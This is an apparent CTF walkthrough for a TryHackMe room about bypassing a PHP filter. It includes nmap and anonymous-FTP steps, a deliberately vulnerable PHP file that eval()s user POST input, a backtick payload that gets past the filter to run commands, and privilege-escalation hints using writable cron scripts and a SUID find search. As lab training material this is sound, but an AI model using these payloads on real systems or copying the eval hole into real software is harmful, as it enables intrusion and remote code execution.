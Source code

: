 ## Room  is backtikcs on tryhackme

The room will let you practise php fileter bypass

Big hint starts from nmap stage
 
    sudo nmap -sVC <ip> -Pn -vv
 
 The output of it we will see that we have anonymous access to ftp server on `port 21`
 
    ftp <ip>
    
    username: anonymous
    passsword: anything
then you will find a directory called pub in which inside it has a dockfile which you cam download it through

    get manifest.docs
    
Then navigate to the directory you downloaded and open it to read what is inside. 
It is nothing but a was to use backticks tricks to bypass php filters

PHP source codes

      <?php
        //only the server can reveal the flag on http://google.com
        //?x=red: {{print(`whoami`)}}
        ///{${ print_r(`whoami`) }}
        // /dev/ctf

        function x($string)
        {
                $x = preg_match_all('/([a-z0-9_]+)\s*\(/isU', $string, $matches);
                if ($x) {
                        //$func = $matches[1][0];
                        foreach ($matches[1] as $func) {
                                //echo $func;
                                if (function_exists($func)) {
                                        echo "Don't Hack me with: " . $x;
                                        exit;
                                }
                        }

                        //exit;
                }
                //$r = str_replace('/dev/ctf', '\\"xxdd33\\"', $string);
                // BACKUP -->   $r = preg_replace('/(red|green|white|black|blue):\s*(.*)/', 'echo \'<div style="color:$1;">\'.strtolower(mambo vip"$2").\'</div>\';', $string);
                $r = preg_replace('/(red):\s*(.*)/', 'echo \'<div style="color:$1; font-size:25px">\'.strtolower("$2").\'</div>\';', $string);
                //echo $r;
                return eval($r);
        }

        if (isset($_POST['stp'])) {
                x($_POST['stp']);
                exit;
        }

        ?>
        
  so every thing suspicious is terminated. So using backticks you completely bypass it
     eg.
     
            ${print `ls`}
 so you can use any payload to get a reverse shell as web user.
 
 ### prevelege escation
 
 
   * look at crontabs you may find editable to everybody scripts and it is run as user john so you cat get the userjohn shell now
   * To be root just find suid binaries and read any file using the privilege of find command
 
             find / -perm -u=s -type f 2>/dev/null
             
   
